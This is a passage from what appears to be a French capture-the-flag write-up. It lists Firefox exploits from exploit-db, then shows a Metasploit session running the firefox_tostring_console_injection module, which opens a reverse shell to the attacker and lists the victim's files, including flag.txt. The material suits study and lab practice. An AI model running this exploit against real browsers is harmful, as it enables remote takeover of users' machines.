 ~~~bash
Mozilla Firefox - Simplified Memory Corruption (PoC)                          | https://www.exploit-db.com/exploits/15342
Mozilla Firefox - WebIDL Privileged JavaScript Injection (Metasploit)         | https://www.exploit-db.com/exploits/34448
Mozilla Firefox - XMLSerializer Use-After-Free (Metasploit)                   | https://www.exploit-db.com/exploits/27940
Mozilla Firefox - location.QueryInterface() Code Execution (Metasploit)       | https://www.exploit-db.com/exploits/16301
Mozilla Firefox - toString console.time JavaScript Injection (Metasploit)     | https://www.exploit-db.com/exploits/34363
Mozilla Firefox - view-source:JavaScript url Code Execution                   | https://www.exploit-db.com/exploits/10070
~~~

Après avoir fait un premier tri des versions de Firefox différentes de 16, j'ai ouvert chacun des liens affichés et cherché la version exacte compatible avec la version de Firefox. 

L'exploit compatible est le suivant : `Mozilla Firefox - toString console.time Privileged JavaScript Injection (Metasploit)`.

Cet exploit est disponible uniquement dans `Metasploit` :

~~~bash
msf5 > use exploit/multi/browser/firefox_tostring_console_injection
msf5 exploit(multi/browser/firefox_tostring_console_injection) > set srvport 8080
srvport => 8080
msf5 exploit(multi/browser/firefox_tostring_console_injection) > run             
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.122.26:4444 
[*] Using URL: http://0.0.0.0:8080/WYxStnrboh4
[*] Local IP: http://192.168.122.26:8080/WYxStnrboh4
[*] Server started.

msf5 exploit(multi/browser/firefox_tostring_console_injection) > 
[*] 192.168.122.131  firefox_tostring_console_injection - Gathering target information for 192.168.122.131
[*] 192.168.122.131  firefox_tostring_console_injection - Sending HTML response to 192.168.122.131
[*] Command shell session 1 opened (192.168.122.26:4444 -> 192.168.122.131:35454) at 2019-08-26 22:09:03 +0200

msf5 exploit(multi/browser/firefox_tostring_console_injection) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  1         shell firefox/firefox               192.168.122.26:4444 -> 192.168.122.131:35454
msf5 exploit(multi/browser/firefox_tostring_console_injection) > sessions 1
[*] Starting interaction with 1...

ls 
browse.sh
Desktop
Documents
Downloads
examples.desktop
flag.txt
Music
Pictures
Public
Templates
Videos
~~~